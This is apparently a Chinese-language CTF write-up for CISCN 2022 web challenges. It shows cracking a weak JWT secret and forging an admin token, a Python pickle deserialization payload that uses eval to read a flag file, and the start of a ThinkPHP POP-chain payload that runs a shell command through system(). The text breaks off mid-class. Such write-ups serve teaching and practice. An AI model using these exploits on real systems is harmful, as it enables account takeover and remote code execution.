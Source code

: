 ```sh
xiaolei@xl-pc:~/c-jwt-cracker$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEnb3IgMT0xOyMifQ.2KZFeYNbr1BXQlGVWO33po-cY_t0Qi3ulU3sArr_T1g
Secret is "1Kun"
```

用工具破出密钥
在[jwt](https://jwt.io/)解码网站将用户名改为admin![image-20220812143511736](D:\Typora\note\CTF\web\ciscn.assets\image-20220812143511736.png)

更改cookie，成功访问**/b1g_m4mber**，在源码里面看到题目的源码，下载源码

### py反序列化



py现在只会写个脚本，反序列化还是完全不会，就先贴个脚本

```py
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a

```

<font color='red'>**注：在python2的环境下运行**</font>

```sh
xiaolei@xl-pc:/ctf/web/buu/exp$ python2 ikun.py
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

将源码**become**的hidden删掉，生成的值输进去得到flag



## [CISCN 2022 初赛]ezpop



www.zip源码泄露，找到路由和反序列化入口，然后拿链子打就好了

**rce**

```php
<?php

namespace think\model\concern;

trait Attribute
{
    private $data = ["key" => ["key1" => "cat /nssctfflag"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;

abstract class Model
{
    use model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
```
